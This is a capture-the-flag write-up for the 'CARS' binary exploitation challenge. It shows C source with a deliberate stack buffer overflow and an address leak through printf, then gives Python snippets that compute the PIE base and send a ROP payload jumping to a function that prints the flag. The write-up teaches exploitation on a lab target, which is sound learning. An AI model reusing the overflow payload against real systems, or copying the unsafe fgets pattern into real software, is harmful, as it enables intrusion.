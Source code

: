 # CARS

![chall](pictures/chall.png)

How kind, the source code is given.

```c
#include <stdio.h>
#include <stdlib.h>

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Here is the checksec:

![checksec](pictures/checksec.png)

Do note that PIE is enabled, so although there is a win function, we can't just jump there.

The vulnerability is pretty obvious, right here:

```c
fgets(input, 256, stdin);
```

`input` is only 28 characters long, so this is an obvious buffer overflow.

But how do we leak PIE base?

Lets look at the main function.

```c
srand(0xb1adee); // this random seed is sooo drain
```

This lines sets the seed for Libc's `rand()` funciton. Since the seed is constant, this means that the number that rand generates should always be the same. Let's check.

![number](pictures/number.png)

That is so goofy??! Why is the number differnt? Here is the line that prints the random number.

```c
printf("Report number: #%lu\n", &report_number);
```

The error lies in the extra `&` before `report_number`. This means instead of printing the value of `report_number`, it prints the address of it instead. We can use this to calcualte PIE base.

```py
p.recvuntil(b'Report number: ')
leak = int(p.recvline()[1:]) - 16528
```

Now that we have PIE base, calling the win function is trivial.

```py
# First input is useless
p.sendline(b'a')    
payload = b'a' * 40 + pack(0x000000000000101a + leak) + pack(elf.symbols['admin'] + leak)
p.sendline(payload)
```

Do note that I had to add a `pack(0x000000000000101a + leak)`, which is a `ret` ROP gadget. This is because of the `movaps` issue, which prevents us from getting the flag. You can read more about it [here](https://ropemporium.com/guide.html) under `Common pitfalls`.

Full solution in cars.py